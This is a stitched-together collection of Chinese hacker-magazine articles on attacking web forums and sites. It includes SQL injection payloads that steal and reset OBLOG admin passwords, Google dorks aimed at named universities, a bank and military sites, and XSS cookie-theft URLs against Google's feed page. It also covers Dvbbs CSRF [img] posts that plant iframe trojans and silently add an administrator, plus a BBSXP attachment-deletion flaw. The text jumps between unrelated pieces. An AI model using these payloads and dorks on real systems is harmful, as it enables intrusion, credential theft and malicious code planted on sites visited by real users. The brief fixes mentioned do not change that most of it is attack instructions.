但如果直接把管理员的 MD5 值替换成另一个值，感觉有点太那个了……于是构造语句：`declare @a sysname select top 1 @a=password from [admin] update [user] set homepage=@a where userid=1-- ...`



OK！理论分析结束，转入实测阶段……先申请一个用户，登录后进入“后台管理”，选择日志并执行“移动到”，如图1。



在“执行”之前，先启动“Winsock Expert”程序，在“选择监听的程序”中选择当前页，如图2，准备抓包。

```http
POST /252/User-blog.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
application/msword, application/vnd.ms-excel, ...
```





OK！下面就可以更改管理员的密码了，将 ID 的值改为 `ID=272,update+[admin]+set+password=... where+username=...`，其中的 `password` 值是 `123456` 的 MD5 的 16 进制，`username` 值是 `admin` 的 16 进制。执行成功后，打开后台登录页 `admin_login.asp`，输入管理员名称“admin”及刚刚设置的密码“123456”，登录成功。

在后台逗留了一会，添加了一个管理员后退出。随后将前面得到的管理员 MD5 值转换为 16 进制，再按前述方法把管理员密码改回去，避免管理员无法登录后台。

由于时间关系，没有再对更多站点测试。接下来给出修补方法：找到 IF 过程中拼接的 SQL 语句，将最后的 `id` 改为 `Clng(id)` 以进行过滤。漏洞形成的主要原因是前后代码对 ID 参数处理不一致。

文末提到：官方 2.52 版测试站点未出现该漏洞，而提供给用户免费下载的版本却存在该问题。并注明文中工具（ASCII 转换、WinSock Expert 等）来源说明。



其中的 `subject` 是专题序号，`ID` 即本次要修改的对象。将其改写为 `ID=626;declare ... update [user] set ...`（空格用 `+` 代替）以构造提交参数。

对于数据提交，作者没有采用 NC，而是借助可计算 `Content-Length` 的工具，将前面的信息复制到输入框中并测试；返回信息异常地包含大量内容，提示可能存在问题。



在博客程序中，OBLOG 名气很大，2.52 版用户较多。通过关键词搜索可发现大量站点，部分采用 SQL 数据库。按相同步骤测试后，返回信息较前文明显减少。



打开“修改我的资料”（如图5），管理员名称到手。接下来将 ID 中的 `username` 改为 `password`，执行成功后再次查看“我的资料”（如图6），MD5 值也拿到了。



## 目录浏览与Google Hacking

曾云好

### 一、源起

某日，十分无聊地坐在电脑前浏览黑客杂志。在看到暴库漏洞时，我突然想起了 `inc/conn.asp` 这种攻击方法还从来没有成功过（小编：这种方法指使用搜索引擎搜索一些敏感关键字获取网站数据，`conn.asp` 往往是 ASP 程序里包含数据库连接信息的文件）。既然兴趣来了就开工，直接在 Google 里输入 `inurl:/inc/conn.asp`，发现根本没有这样的网页（图1）。后来输入 `inurl:conn.asp`，找到了一个暴库漏洞的网站（图2）。


可是我找了上千个网页也只有这一个网站，后来编写了很多类似的关键字，可效果都是差不多。经过一个下午的思考，事情终于有了新的转机，攻击的方向也随之发生了变化，不过效果却相当惊人。

### 二、目录浏览

下午顶着两节课没上的危险，一直在思考着。突然我的灵感来了，无意中构造了 `inurl:/inc+conn.asp` 这个关键字，发现它居然找出了很多网站的漏洞（图3）。


来看看具体的网站（图4），再看看 `conndb.asp` 这个文件的内容（图5）。一个网站就这样轻易地被攻破了，实在是吓了我一大跳。

后来我仔细查阅了每一个网站，发现它们都有一个共同点，就是都含有 `to parent directory` 这句话。那么我们就查找 `to parent directory` 看看（图6）。


居然有 229000000 项符合条件的查询结果，太令我兴奋了。经过和老师一个中午的激烈讨论，终于从他那里知道原来是服务器没有配置好而出现的安全问题，问题就出在服务器的“目录浏览”上。不仅 IIS 和 Apache 存在这样的问题，其他 web 服务器也存在类似问题。

### 三、构造关键字

通过我上面的思考与分析得出的结论是：网站可以被目录浏览，而又可以找出数据库链接文件，从而导致数据库物理路径泄露。现在不仅仅要把网站数据库地址找出来，还要把所有存在目录浏览的网站找出来。那么就以存在目录浏览的网站为基础，再去它们网站上查找敏感文件，这样不就可以得到肉鸡了吗？这需要编写一些 google hacking 关键字。经过半个多月的整理与实践，今天把关键字写出来与各位朋友一起分享。

- 1. 所有可以目录浏览的网页都有一些相同的地方，主要是下面几个：`To parent directory`、`parent directory`、`Last modified`、`Description`、`转到父目录`、`index of /`、`<DIR>` 等等。

上面这些词语是查找存在目录浏览网站的基础，也是组成关键字的核心。而且我们可以把 `to parent directory` 翻译成世界上各个国家的语言，比如翻译成中文是“转到父目录”，那么我们搜索“转到父目录”也可以查找到很多网站，而且都是中国内地的网站（图7）。


- 2. 而利用 google 来搜索目录浏览的 google 语法主要有：
  - intitle
  - intext
  - inurl
  - site
  - filetype 等等。
- 3. 搜索特定的文件，我们需要用到文件后缀名。常见的文件后缀有：avi、bak、bmp、dll、exe、ini、mp3、rar、txt、wav、js、vav、zip、chm 等。地址：`http://www.vipcn.com/InfoView/Article_43112.html` 上有目前世界上绝大部分的文件后缀，有关文件后缀可到上面查询。
- 4. 我们还可以搜索特定的文件夹。不同的系统有不同的文件夹，这里列举了常见的文件夹名：Inetpub、etc、movie、music、dianying、yinyue、tv、dianshi、share、admin、login、denglu、guanli、电影、电视、音乐、共享、管理、登录、bbs、vote、luntan、toupiao、论坛、投票、upload、shangchuan、上传、check、yanzhen、验证等等。比如我们搜索 IIS 下的根文件夹 inetpub（图8），这样 IIS 服务器下的所有东西我们就都可以看到了。


- 5. 搜索协议，常见的协议有 CP、IP、DNS、TELNET 等等，具体的请到 `http://www.cnpaf.net/`（中国协议分析网）上去查询。比如我要看 TCP/IP 协议详解（图9）。


- 6. 搜索域名后缀，常见的域名后缀有：com、net、mil、org、info、gov、edu、biz、coop、aero、pro、int、arpa 等等，还可以针对不同地区来查找，比如 cn 等等。可以到 `http://www.windstudio.net/html/200508/2005082922l807.html` 上查看全球的域名后缀。我们来看看美国军方存在这个漏洞的网站（图10），居然存在 118000 项符合条件的网页，里面多少也应该有一点点机密资料吧。


其实上面都是以常见的词语来进行查找的，所以构造关键字的原则就是利用第一点中的词语和 google 语法，再加上一些常见的词语，就可以编写出好的攻击关键字。不过找出来的很多网站里面的文件是不能够读取的，权限比较小。但是权限再小，我们也可以得到对方网站的体系结构，这为我们踩点省了很多力气。能够直接读取的，那几乎是完美了，可以不费吹灰之力就攻破。

### 四、实战攻击

下面我通过几个实际的例子来运用上面的理论知识，实践才是检验真理的唯一标准。

- 1. 复旦大学：输入 `intext:to parent directory+intext:mdb site:fudan.edu.cn` 语句，搜索网站数据库文件（图11）。


不仅数据库文件可以下载，其他的 asp 文件也可以下载得到源代码。打开刚下载的数据库，管理员的密码就轻松地得到了（图12），接下来就是登录后台，上传木马和提权了，这里就不多讲了。


- 2. 中国科学技术大学：输入 `intext:to parent directory+intext:conn.asp site:ustc.edu.cn` 语句，搜索网站的数据库链接文件 conn.asp（图13），下载一个文件后发现里面居然是网站收费策略（图14）。
- 3. 交通银行郑州分行：输入 `to parent directory site:202.102.239.179` 语句，有一个日志文件（图15），下载后发现有一些绝对路径的敏感信息（图16）。

## 一个人的战争

后利用发散思维（比如默认数据库链接文件）不断扩展关键字范围，从而获得更多内容。从管理员角度讲，不要忽视服务器“目录浏览”功能，配置不当会对网站造成较大风险……

```asp
dim conn
set conn = Server.CreateObject("ADODB.Connection")
conn.open "driver={SQL Server};Server=...;uid=sa;pwd=..."
function htmlto(str)
  str = trim(str)
  str = replace(str,"<","&lt;")
  ...
end function
```

```text
/home/.../wallpaper/web/3800.htm --> 182.48.4.170
/home/.../wallpaper/web/41024.htm --> 182.48.4.170
/home/.../wallpaper/web/2800.htm --> 182.48.4.170
...
```

- 4. 无意中的 Webshell：输入 `inurl:/inc+conn.asp` 语句后得到了一个免杀的 Webshell（图17）。

### 五、后记总结（解决方案）

从攻击者角度来说，最主要的是写攻击关键字。关键字原理并不复杂，以目录浏览相关关键词为中心，再不断扩展组合……

Google 作为网络最受欢迎的搜索引擎以及服务提供商，也成为了黑客攻击的重要目标……

> **RSS 解释：** RSS（Really Simple Syndication / Rich Site Summary）是一种描述和同步网站内容的格式，属于 XML 应用，用于聚合与分发信息。

## 一、Google 个人主页 feed 跨站

文章描述了 Google 个性化主页 feed 聚合功能中的输入处理问题：当提交合法聚合地址并附带跨站语句时，可能触发 XSS，进而实现跨站攻击……

```text
http://www.google.com/ig/feeds?q=http://www.target.org/index.php/feed/?%3CSCRIPT%3Ealert
('Just_Fuck_The_World')%3C/SCRIPT%3E&page=advdsrch
```

如图1，和统计系统一样。我们只要针对系统的提交格式构造语句就可以实现跨站了。但是要注意的就是因为我们是需要提交上去个性化首页，有些朋友会说因为我们并没有利用自身的帐号登录，这样会不会没有办法实施跨站呢？其实不管是否登录了系统，我们都可以利用那个地址提交并且实现跨站脚本攻击。我们可以随便在任何一个网站找到 Feed 或者是 RSS1.0/2.0，就可以利用他们的聚合地址，然后构造跨站脚本攻击语句。这样就不需要担心没有合法的地址可以实现攻击了。

## 二、feed 提交处跨站漏洞触动钓鱼攻击

CSP（Cross Site Phishing）是比较少见的一种攻击手法，它利用目标网站的漏洞进行钓鱼攻击。为了让我们的钓鱼攻击能够被对方相信，就需要尽量使用一切真实的资料、信息来博取信任，这样的钓鱼攻击效果会更好，而我们就是利用 Google 的跨站漏洞结合钓鱼攻击进行攻击，这个就是 CSP ATTACK。我们可以利用 Google 的这个跨站漏洞结合弹出窗口进行盗取 Cookie 信息、网页木马等等，只要我们需要我们都可以实现！

```text
http://www.google.com/ig/feeds?q=http://www.target.com/feed.php?%3Cscript%3Ewindow.open(%22http://www.163.com/%22)%3C/script%3E&page=advdsrch
```

而获取 Cookie 信息的代码如下：`http://www.google.com/ig/feeds?q=http://www.target.com/feed.php?%3Cscript%3Ealert(document.cookie)%3C/script%3E&page=advdsrch`，如图3。这样，我们就可以尽量榨取漏洞的利用了，根据漏洞严重程度给予适当利用，当然这是非法的使用方法，因此大家抱着学习的态度就 OK 了！千万别误入歧途啊！

## 动网 img 标签所带来的危害

在上期剑心写的“网络世界混乱的起源——[img]标签乐翻天一文”中提及了在动网里直接加一个管理员，这让我想起了去年12月份时动网的一个漏洞。不知道大家对于动网 announcements.asp 文件存在过滤不严漏洞还有没有印象，我们今天要讲的就是这个。首先我们以管理员身份登录，发布公告并用 WinSock Expert 抓包，得到数据如下（为了节省版面，我只选了关键部分）。

```http
POST /announcements.asp?action=SaveAnn HTTP/1.1
Referer: http://localhost/announcements.asp?boardid=0&action=AddAnn

username=admin&boardid=0&bgs=&title=dvbug test"by fhod&content=1&submit=%b7%a2+%b2%bc
```

根据以上抓包的结果，我们完全可以构造出这样的 URI：`http://localhost/announcements.asp?action=SaveAnn&username=admin&boardid=0&bgs=&title=dvbug test"by fhod&content=1&submit=%b7%a2+%b2%bc`，其中“boardid=0”是此公告发布在首页显示的。如果你想此公告只在某个版面显示，就要输入相应的版块 ID 号，bgs 是背景音乐，我们下面会用到。title 就是公告标题，content 是公告内容，submit=%b7%a2+%b2%bc 就是发布了。

如果我们直接在 IE 里打开 `http://localhost/announcements.asp?action=SaveAnn&username=admin&boardid=0&bgs=&title=dvbug test"by fhod&content=1&submit=%b7%a2+%b2%bc`，就会返回“您已经成功地发布了公告”，看来动网对此并未限制站外提交数据。现在我们以普通注册用户身份登录发帖，标题最好起一个诱惑的名字，比如“贵站有漏洞，管理员请进”，帖子内容就写入下面这段代码：`[img]http://localhost/announcements.asp?action=SaveAnn&username=admin&boardid=0&bgs=&title=dvbug test"by fhod&content=1&submit=%b7%a2+%b2%bc[/img]`。除了以上 img 标签以外，我们还可以使用 `[upload=jpg]1&submit=%b7%a2+%b2%bc[/upload]`，两者的区别在于 img 显示时是一个红叉叉，而“[upload=jpg]”则会出现一个提示，如图1。

这时我们以普通用户身份点击的话会出现错误提示，如图2。我们换管理员账号登录并打开此贴，会发现无任何提示，但是我们到主页看一下就会发现公告已经被更改了，如图3。

好了，具体漏洞就介绍完了，但是我们该怎么利用这个缺陷呢。打开 announcements.asp 文件，找到第107行和176行代码：

```vb
If Request("action")="showone" Then
  temp.value=Replace(TemRow(i)+"","<bgsound img src=$Skin$/Default/titletype/img.gif border=0><bgsound src="&Sql(4,i)&" border=0>")
End If
```

以上一段代码是发布公告时填写背景音乐的，如果我们的音乐地址为 `http://localhost/1.mid`，那么 `<bgsound src="&Sql(4,i)&" border=0>` 就为 `<bgsound src=http://localhost/1.mid border=0>`。

接着来看第176行代码：`bgs=Dv_FilterJS(request("bgs"))`，从代码可以看出动网在对背景音乐的输入是没有任何过滤的，`<bgsound src=` 是完全可以闭合来达到挂马的目的的。我们在背景音乐那里输入 `><iframe src=http://localhost width=80 height=80></iframe><bgsound src=`（这里输入 width=80 height=80 是为了更好看到效果，实际挂马时设置为 0 即可）。

然后看看首页公告有没有什么变化，如图4，成功了。我们看此公告的源文件发现前后都已经闭合。

```html
<bgsound src='><iframe src=http://localhost width=80 height=80></iframe><bgsound src=' border=0>
```

以上测试是以管理员身份直接发公告来的，现在以普通用户发一个帖子：`[img]http://localhost/announcements.asp?action=SaveAnn&username=admin&boardid=0&bgs=><iframe src=http://localhost width=80 height=80></iframe><bgsound src=&title=dvbug test"by fhod&content=1&submit=%b7%a2+%b2%bc[/img]`，我们最好把以上这段代码加密，如图5。然后发表新帖，以后只要管理员浏览了我们的帖子，就会在论坛主页发布公告并挂上我们的网页木马了。

在 img 标签乐翻天一文中，剑心说动网后台是 `request.form("username2")`，直接扣管理员是没有办法的。那好，现在就利用动网的此缺陷来达到扣管理员的目的（以下所做的一切均为管理员登录后台的情况下，否则会不成功。具体怎样让管理员登录后台就看你的社会工程学得怎么样了）。

```html
<form action="http://localhost/admin/admin.asp">
action=savenew" method=post name=h>
<input type=text name=username2 value=fhod>
<input type=password name=password2 value=123456>
<input type=text name=username1 value=fhod>
<script language=JavaScript>
document.h.submit();
</script>
```

把以上代码中的 localhost 换为目标网站地址，fhod 替换为你想要加管理的用户名，密码 123456 改为你自己的，保存为 1.htm 上传到自己的空间，假设地址是 `http://localhost/1.htm`，然后发帖，引诱管理员进入。

```text
[img]http://localhost/announcements.asp?action=SaveAnn...
...title=dvbug test by fhod&content=1&submit=...
```

只要管理员浏览了我们的帖子，然后返回到首页，就会把 fhod 提升为管理员权限，并在后台加一用户名为 fhod、密码为 123456 的管理员了，如图6。

然后我们以 fhod 登录查看我们刚才发的帖，发现已经是管理员身份了，如图7。而此时后台管理 fhod 是无任何权限的，我们进后台无非就是利用备份数据库来拿 WebShell。以管理员身份赋予 fhod 权限时构造的 URL 如下：`http://localhost/admin_admin.asp?action=updat&flag=31&flag=32&id=19&Submit=...`，其中 31、32 分别对应备份数据库、恢复数据库；`id=19` 对应 fhod 这个管理员的 ID。

知道了这些我们就可以做一个 2.htm，代码如下，按以上的方法发帖。

```html
<iframe src=http://localhost/admin_admin.asp?
action=updat&flag=31&flag=32&id=19&Submit=...
width=0 height=0></iframe>
```

只要管理员访问了就会为 fhod 赋予备份数据库的权限，如图8。

本文只是对动网的一个缺陷做了一些总结，可见 img 带来的危害并不仅如此。有时候我们想不到的并不一定做不到，只要我们敢想敢做，没有什么做不到的。（文中工具 WinSock Expert、转码2.0以及制作好的1.htm、2.htm已收录于光盘中）

## BBSXP6 另类危害

### 跨用户删除漏洞

BBSXP 的最新版本虽然是 BBSXP7，但使用 BBSXP6 的还是大有“站”在！如果你的 BBSXP6 补上了注入、跨站等漏洞，那么“跨用户删除漏洞”你补上了吗？什么是跨用户？就是在用户未授权的情况下，删除他人上传的附件！这类漏洞虽然不会危及论坛安全，但会影响论坛声誉，所以希望使用 BBSXP6 的站长关注一下！

先来看一下在 BBSXP6 中正常用户是如何删除附件的，如图1。先选中要删除的附件，然后点“删除”按钮就删除掉此文件了。整个过程均在 BBSXP 的框架内，所有的数据提交均在暗箱中进行。怎么办？使用 WinSock Expert！在点击“删除”之前，启动 WinSock Expert 监听当前页，点击“删除”之后，查看 WinSock Expert 中的 POST 项，就能得到详细的数据了。

```http
POST /bbsxp/MyAttachment.asp?menu=DelPostAttachment HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Referer: http://127.0.0.1/bbsxp/MyAttachment.asp
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1
...
ID=9
```

现在再来分析删除过程就清晰多了，所用的是 “MyAttachment.asp” 文件，且 POST 的数据只有一项“ID=9”。在图1中可以看到，当把鼠标移到要删除的附件名称上时，下方状态栏显示的是 `http://127.0.0.1/bbsxp/PostAttachment.asp?AttachmentID=9`，这两个 9 应当一致，附件 ID 值由此确定。

```asp
if CookieUserName="" then error("<li>您还未<a href=Login.asp>登录</a>论坛")
if Request("menu")="DelPostAttachment" then
  for each ho in Request.form("ID")
    ho=int(ho)
    Conn.execute("Delete from [BBSXP_PostAttachments] where id='"&ho&"' and UserName='"&CookieUserName&"'")
  next
